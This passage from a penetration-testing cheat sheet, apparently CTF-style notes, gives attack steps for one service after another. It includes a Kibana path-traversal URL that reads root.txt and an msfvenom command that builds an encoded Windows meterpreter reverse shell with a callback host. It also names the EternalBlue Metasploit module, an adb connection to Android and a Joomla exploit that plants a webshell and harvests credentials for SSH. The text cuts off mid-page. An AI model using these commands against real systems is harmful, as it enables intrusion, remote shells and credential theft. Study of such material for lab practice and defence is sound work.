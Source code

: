 * If there are log files like on port 8000 which are showing you active kabana logs you can have a LFI vulnerability
* Go to the 5601 port and add this extension `/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt`

```
10.10.156.71:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
```

* Then curl the logs and grep for root.txt

```
curl -s http://10.10.31.117:8000/kibana-log.txt | grep "root.txt" 
```

* Also can be used to get a shell in other situations
* https://github.com/mpgn/CVE-2018-17246

### Sync Breeze Enterprise

* Sync Breeze Enterprise v8.9.24
* https://www.exploit-db.com/exploits/40456

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.6.1 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\x0d\x26' -f python --smallest
```

### Microsoft ds

```
exploit/windows/smb/ms17_010_eternalblue
```

### Android

* 5555/tcp open freeciv
* Install adb

```
adb connect [target ip address:port]
```

### Joomla versions 3.6.3

* Able to use joomra.py in order to create an account and login

```
python3 joom.py -u jack -p password -e jack@gmail.com http://10.10.10.10
```

* Edit the templates
* Add in webshell
* Can read the config files which has the use and password, then can ssh in

### XAMPP
